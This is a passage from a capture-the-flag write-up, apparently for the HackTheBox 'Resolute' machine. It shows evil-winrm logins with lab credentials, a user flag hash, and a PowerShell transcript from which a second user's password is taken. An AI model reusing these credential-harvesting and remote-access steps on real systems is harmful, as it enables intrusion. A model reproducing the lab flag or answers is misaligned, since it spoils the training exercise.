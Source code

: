 ### **Gaining access**

I was recommended the tool of evil-winrm from the hackthebox forums, which allowed me to connect to the box easily. 
```
$ evil-winrm -i 10.10.10.169 -u melanie -p 'Welcome123!'
```
This allowed access to `melanie` on the box, giving us the user flag.
```
$ cat user.txt
0c3be45fcfe249796ccbee8d3a978540
```

---

## Root flag


navigated around, tried `ls -a` and `ls -l` but was told to use `ls -hidden` instead. Navigated through every directory while using `ls -hidden` and found PSTranscript in home.

found `20191203` as directory 

found `PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt` as file

shows hidden powershell transcript, using `cat` on file shows the following

```
Windows PowerShell transcript start
Start time: 20191203063515
Username: MEGABANK\ryan
RunAs User: MEGABANK\ryan
Machine: RESOLUTE (Microsoft Windows NT 10.0.14393.0)
Host Application: C:\Windows\system32\wsmprovhost.exe -Embedding
Process ID: 2800
PSVersion: 5.1.14393.2273
PSEdition: Desktop
PSCompatibleVersions: 1.0, 2.0, 3.0, 4.0, 5.0, 5.1.14393.2273
BuildVersion: 10.0.14393.2273
CLRVersion: 4.0.30319.42000
WSManStackVersion: 3.0
PSRemotingProtocolVersion: 2.3
SerializationVersion: 1.1.0.1
``` 

also shows another user as ryan, and password of `Serv3r4Admin4cc123!`

log back into evil winrm with ryan
``` 
$ evil-winrm -i 10.10.10.169 -u ryan -p 'Serv3r4Admin4cc123!'
```

checked groups 
```
whoami /groups
```
